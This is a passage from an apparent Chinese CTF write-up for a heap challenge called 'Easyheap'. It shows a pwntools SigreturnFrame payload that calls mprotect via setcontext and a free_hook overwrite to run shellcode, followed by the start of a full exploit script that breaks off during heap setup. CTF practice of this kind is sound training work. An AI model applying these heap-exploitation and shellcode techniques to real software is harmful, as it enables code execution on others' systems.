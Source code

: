 ```
frame=SigreturnFrame()
frame.rsp=free_hook+0x10 
frame.rdi=shellcode_addr
frame.rsi=0x1000
frame.rdx=7

frame.rip=libc.sym['mprotect']+libc_addr 
edit(0,str(frame)) 
```

这里是调用了mprotect,借助setcontext布置参数。注意rsp是target_code（free_hook+0x18的前面一句，不过也是shellcode+0x18,实际上写什么都行）因为有两个ret，其实也是调试出来的。
后面就去执行read的shellcode，读入到libc去除末尾的部分，这部分被开辟成rwx的。之后一个jmp rsi直接执行shellcode。
完整exp

```
from pwn import *
io=process('./Easyheap')
elf=ELF('./Easyheap')
libc=elf.libc
context.log_level='debug'
context.arch="amd64"

def add(size,Content):
    io.recvuntil('>> :')
    io.sendline(str(1))
    io.recvuntil('Size')
    io.sendline(str(size))
    io.recvuntil('Content')
    io.send(Content)

def delete(index):
    io.recvuntil('>> :')
    io.sendline(str(2))
    io.recvuntil('Index:')
    io.sendline(str(index))

def edit(index,Content):
    io.recvuntil('>> :')
    io.sendline(str(4))
    io.recvuntil('Index:')
    io.sendline(str(index))
    io.recvuntil('Content:')
    io.send(Content)

def show(index):
    io.recvuntil('>> :')
    io.sendline(str(3))
    io.recvuntil('Index:')
    io.sendline(str(index))

def debug():
    gdb.attach(io,"brva 0xC18")
    add(0x100,'bad')

padding='a'*0x90 

add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
add(0x500,padding)
```